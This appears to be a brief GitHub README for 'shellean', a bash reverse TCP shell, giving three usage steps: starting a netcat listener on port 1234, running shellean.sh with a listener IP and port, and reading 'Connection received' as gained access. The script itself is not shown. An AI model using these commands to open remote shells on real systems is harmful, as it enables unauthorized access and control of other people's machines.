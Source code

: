 ## shellean

**Reverse TCP Shell.**  

**1. Fire up Netcat for incoming connections. `$ nc -lvp 1234`**  
**2. Run shellean.sh. `$ ./shellean.sh -a 192.168.1.109 -p 1234`**  
**3. If you get this message `Connection received` it means you gained access.**  

<img src="https://www.vectorlogo.zone/logos/gnu_bash/gnu_bash-icon.svg" alt="bash" width="50" height="50" />
